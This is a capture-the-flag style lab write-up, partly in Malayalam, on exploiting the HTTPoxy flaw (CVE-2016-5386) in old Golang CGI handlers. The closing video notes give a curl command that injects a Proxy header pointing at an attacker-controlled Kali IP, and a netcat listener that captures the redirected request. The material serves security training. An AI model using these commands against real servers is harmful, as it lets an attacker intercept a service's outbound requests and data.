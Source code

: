 ## Introduction
-->This exercise covers the exploitation of HTTPoxy against an old version of Golang
-->In this exercise, we are going to cover the vulnerability CVE-2016-5386. This vulnerability impacts old version of Golang HTTP library when used as a CGI. This vulnerability is actually a type of bug that was re-discovered in 2016 under the name "HTTPoxy" and impacts few other libraries. For more details, you can check out [httpoxy.org](https://httpoxy.org).

## The issue
-->The issue is due to the fact that when passing data to a CGI, the web server creates environment variables for each header coming from the client. To create these environment variables and avoiding malicious users creating or overwriting arbitrary variables, the web server adds the prefix `HTTP_` and capitalise the string. For example, the `Host:` header becomes the variable `HTTP_HOST`.
-->This prefix as well as the capitalisation prevents overwriting variables or creating variables that may trigger unexpected behaviours in the CGI. However, one environment variable used and supported by most programs (and matching `HTTP_`) exists: it is the variable `HTTP_PROXY`.

## Exploitation
-->To exploit this issue, the client just needs to add a `Proxy:` header with the URL (scheme, address and port) of a system under his/her control. This will create an environment variable named `HTTP_PROXY` in the CGI environment that will be used when the CGI sends HTTP requests (for example to get data from another system). Basically, by injecting this header, the attacker will get the CGI to connect to his/her proxy when sending HTTP requests.
-->All versions of Apache after 2.2.23 prevent this attack by blocking the `Proxy:` header all together. In those version, a system administrator will need to recompile Apache to make the server vulnerable.
-->In the online version of this exercise, the key to score is the `User-Agent` of the CGI.

## Conclusion
-->This exercise showed you how you can exploit CVE-2016-5386 to get a CGI to connect to your malicious proxy when sendng HTTP requests. This allowed you to get access to the full request if the client doesn't use TLS

# Video Explanation
## Video 1 - introduction
-->ivide application CGI (Common Gateway Interface) use chyunund.
-->so namal oru request ayakumbol webserver ath parse chyum enit ee CGI ilek vidum.request CGI il ethumbol environment vairiables aayi CGI edukum
-->so namal requets il entheniglum puthiya header um value um ittal athum CGI read chyum like hacker: pentesterlab.com enn ittal ath cgil ilek pokum

-->Most http clients support the following environment variables to configure a Proxy :
- HTTP_PROXY
- HTTPS_PROXY
-->If the variable is set, the HTTP client will connect to the URL via the PROXY
-->So basically by injecting a "proxy" header we are able to get the server to use our system as proxy

## The attack
- First find the cgi request
- set-up a publcly available netcat listener
- send a curl request with the proxy header containing the public ip of your netcat listener

## Video 2- exploitation
-->lab open aakuka apol namuk hello hacker enn page il kanikum.aa page onukoodi reload chyumbol kanam hacker enna word load aakna kurach time edukunund
-->so inspect chyth network tab il poi page reload chyth nokumbol kanam "hello.cgi" enna oru file/request kidakunath kanan patum
-->so aa request click chyuka apol athinte ullil ath use chyuna complete url kanan patum ie,->http://ptl-61d3f225-283536db.libcurl.so/cgi-bin/hello.cgi
-->so ee url il pokuka apol page il hacker enn kanikum.so ivide ninan namuk hacker  enna strign kitunath
-->so ini enth venamenal ee cgi il HTTP proxy enna vulnerability undon een test chyam
-->so rand terminal open chyuka 
1) il namal ->`curl -H "Proxy: http://kali-ip/" http://ptl-61d3f225-283536db.libcurl.so/cgi-bin/hello.cgi`
2) il mathe terminalil nc vech listen chyanam ->`nc -l  -p 80`

-->so adyam nc vech listen chyuka enit ee curl command run chyuka. apol namuk terminalil key kitum
-->ivide enthan nadkaunathenal namal proxy namude ip vechath kond CGI request server ilek ayakumbol namude proxy vazhi aan request kadann pkunath.so request il ulla headers um value um oke namuk kanan patum ok